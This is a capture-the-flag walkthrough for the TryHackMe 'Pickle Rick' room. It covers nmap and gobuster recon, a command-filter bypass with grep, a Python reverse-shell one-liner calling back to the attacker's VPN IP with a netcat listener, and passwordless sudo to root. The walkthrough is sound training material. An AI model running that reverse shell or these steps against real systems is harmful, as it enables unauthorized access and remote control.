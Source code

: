 # PICKLE RICK CTF TRYHACKME

# RECON

'Nmap'
nmap -sV -A -T5 <MACHINE_IP>
-Open Ports-
![image](https://user-images.githubusercontent.com/82729808/190850518-7aac9130-039f-4e48-8334-44fa5885b6b4.png)

We got 22 and 80 ports open. Lets move to the web page.
In the source code of the page, we have a username

![image](https://user-images.githubusercontent.com/82729808/190850795-4be5e958-7fc4-47b2-a422-5b8a9be379c6.png)

' Gobuster '
![image](https://user-images.githubusercontent.com/82729808/190850810-33210e0d-edf9-4579-9d35-e00ae0e92a98.png)
 
 Lets look at /robots.txt

![image](https://user-images.githubusercontent.com/82729808/190850862-700f1c30-6e25-4267-8e02-8c82f4fda116.png)
We have this text. And when we look at the login page we understand that its a password

![image](https://user-images.githubusercontent.com/82729808/190850872-87a9b97d-ff3a-4eb2-9e18-87bfe3062ff9.png)

![image](https://user-images.githubusercontent.com/82729808/190850884-b388ab7b-e11e-4cea-9f46-ccdc599868e0.png)

And we have a command panel. Lets list the files.
![image](https://user-images.githubusercontent.com/82729808/190850898-a30fb1c1-9b1f-4200-b1ce-53363604c6ae.png)
 
 When we try to read the files, this happens
 ![image](https://user-images.githubusercontent.com/82729808/190850911-f0774c25-2fb8-4c05-9a72-27232af40b55.png)

So we have to be creative
![image](https://user-images.githubusercontent.com/82729808/190850954-fa083d29-5156-4667-bf4b-ae61a1185666.png)

When we use grep and look at the source code, we can see de blacklisted commands
![image](https://user-images.githubusercontent.com/82729808/190850978-1fc8bd7f-8fbf-4584-8ee5-bb764c5aee5f.png)

We can use grep again to read the files.

![image](https://user-images.githubusercontent.com/82729808/190851146-2b94f285-69ad-4bb8-8b95-d8cce05d002a.png)

And we've found the first question!

# Explotation

Now we need to get a reverse shell. To do this, we can test if machine has python with the command "python3 -c 'print("I have Python3!")'"

![image](https://user-images.githubusercontent.com/82729808/190851232-c3404331-2d87-45ac-9b88-9e52e441194d.png)

We have python3. Lets copy our reverse shell cheat sheet at  https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR_OPENVPN_IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Before we execute this script we have to start a nc listener.
![image](https://user-images.githubusercontent.com/82729808/190851300-b02a00eb-b643-4476-9644-01d4c14d47b7.png)
![image](https://user-images.githubusercontent.com/82729808/190851454-5cf448aa-8457-45fa-9547-25ff550a1fe3.png)

We have the shell!

Let's check out root privileges
![image](https://user-images.githubusercontent.com/82729808/190851481-f042ace0-e186-4f14-aab1-fb6dd635af5d.png)

We can see that we can switch to root account without a password
![image](https://user-images.githubusercontent.com/82729808/190851565-b0f22bb1-b5d2-4090-8ecd-35b408f0e9f7.png)

We have the 3rd ingredient in root directory and the second one in the home page of ricks account
![image](https://user-images.githubusercontent.com/82729808/190851602-e7871eec-6489-4ea3-9274-2c663a5bb20a.png)

# COMPLETED

